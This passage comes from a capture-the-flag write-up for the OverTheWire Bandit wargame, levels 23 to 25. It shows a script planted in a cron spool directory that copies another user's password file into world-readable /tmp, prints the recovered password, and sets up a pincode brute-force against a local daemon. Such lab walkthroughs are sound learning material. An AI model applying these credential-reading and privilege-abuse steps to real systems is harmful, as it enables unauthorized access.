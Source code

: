 ```shell
bandti23@bandit:~$ mkdir /tmp/sh/
bandti23@bandit:~$ cd /tmp/sh/
bandit23@bandit:/tmp/sh$ chmod 777 /tmp/sh
bandit23@bandit:/tmp/sh$ vim script.sh
#!/bin/bash
myname=$(whoami)
cat /etc/bandit_pass/$myname > /tmp/sh/pass.txt
chmod 777 /tmp/sh/pass.txt
done
```

Give our script execute permission with ```chmod +x``` and move it to be executed.

```shell
bandit23@bandit:/tmp/sh$ chmod +x script.sh
bandit23@bandit:/tmp/sh$ mv script.sh /var/spool/bandit24/
```

And now we wait. We can check if our script has been executed with:

```shell
bandit23@bandit:/tmp/sh$ cat /var/spool/bandit24/script.sh
```

If we can read it, it still hasn't been executed.

```shell
bandit23@bandit:/tmp/sh$ ls
pass.txt
bandit23@bandit:/tmp/sh$ cat pass.txt 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
bandit23@bandit:/tmp/sh$ exit
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

Done, this one was really fun to do.

## Level 24 --> Level 25

A daemon is listening on port 30002 and will give the password for bandit25 if given the password for bandit24 ("UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ") and a secret numeric 4-digit pincode. This can be done by brute-forcing.

So let's first test how it works:

```shell
bandit24@bnadit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1
Wront! Please enter the correct pincode. Try again.
Exiting.
```

So it takes current password plus space plus a four digit number. Let's make a script for brute-forcing it. First we need to create tmp directory where we can create a script.
